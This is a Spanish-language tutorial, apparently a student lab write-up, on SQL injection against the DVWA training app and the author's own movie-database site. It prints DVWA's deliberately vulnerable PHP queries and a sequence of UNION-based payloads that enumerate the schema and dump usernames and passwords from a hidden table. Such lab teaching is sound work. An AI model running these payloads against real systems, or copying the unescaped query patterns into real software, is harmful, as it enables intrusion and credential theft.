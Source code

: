 # DVWA
## Nada de seguridad

Para empezar vamos a utilizar la página web DVWA para poder probar este ataque, en esta página, podemos seleccionar el nivel de seguridad, que en este caso escogeremos el mas bajo.
Al dirigirnos al apartado de Inyección SQL, vemos que hay un input para meter texto.

![SQLi_1.jpg](../ExplotacionSQLI/SQLi_1.jpg)

Al cual para comprobar si esta pagina es vulnerable o no a inyecciones SQL pondremos un comilla simple tal como esta ', y si le damos a submit y sale algo parecido a esto es que el código es vulnerable.

![SQLi_2.jpg](../ExplotacionSQLI/SQLi_2.jpg)
Y para aprovecharnos de esto podemos poner lo siguiente, lo cual hace que la consulta nos muestre todos los resultados.

![SQLi_3.jpg](../ExplotacionSQLI/SQLi_3.jpg)

Como se muestra a continuación.

![SQLi_4.jpg](../ExplotacionSQLI/SQLi_4.jpg)

Esto sucede ya que no se escapa ningún caracter en la consulta realizada a la base de datos.


Este es el código en cuestión.
```
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?>
```

## Ahora probemos con un poco mas de seguridad 
Como podemos ver ahora la página no nos deja añadir información de forma aparente.

![SQLi_6.jpg](../ExplotacionSQLI/SQLi_6.jpg)

Así que para poder comprobar y realizar un  ataque será necesaria la utilización de la herramienta BurpSuite.

Para poder comprobar si es vulnerable o no esta página nos deberemos de dirigir a BurpSuite con el objetivo de detener la petición realizada por el servidor y modificarla nosotros.

![SQLi_7.jpg](../ExplotacionSQLI/SQLi_7.jpg)

Y lo comprobamos de la misma forma a la anterior con una comilla simple, y vemos que nos aparece el siguiente comentario.

![SQLi_8.jpg](../ExplotacionSQLI/SQLi_8.jpg)

Y esto nos confirma que este código es en cuestión vulnerable a ataques de inyección SQL. Pero no podemos realizar el ataque de la misma forma que antes ya qué no podemos utilizar espacios en la petición tendremos que codificarlos, para elló utilizamos + en vez de los espacios.

![SQLi_9.jpg](../ExplotacionSQLI/SQLi_9.jpg)

Y con ello nos aparece el resultado buscado.

![SQLi_10.jpg](../ExplotacionSQLI/SQLi_10.jpg)

Y este sería el código de este nivel de seguridad.
```
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?>

```

Como podemos ver también realiza un escapado de los siguientes caracteres en la consulta 
```
NUL (ASCII 0), \n, \r, \, ', ", and Control-Z.
```

# Página propia

Para empezar en nuestra página vemos solo hay una página, que hace consultas a una tabla. Pero si usamos los siguientes comandos al final sacaremos información de una segunda tabla.

- Con este vemos si la página es vulnerable a inyecciones sql
```
' OR 1=1 -- -
```
- Con este comprobamos el número de columnas que tiene la tabla
```
' union select 1, 1 -- -
```
- Con este sacamos el nombre de la base de datos
```
' union select 1, database() -- -
```
- Con este, utilizando el nombre de la base de datos sacamos los nombres de las tablas
```
' union select table_name, null from information_schema.columns where table_schema = "id20453829_peliculas"-- -
```
- Tambien utilizando el nombre de la base de datos sacamos los nombres de las columnas de todas las tablas
```
' union select column_name, null from information_schema.columns where table_schema = "id20453829_peliculas"-- -

```
- Y con eso podemos sacar el nombre y contraseña de la tabla usuarios la cual esta oculta
```
' union select 1, concat(nombre,'-',contrasena) from usuarios -- -

```
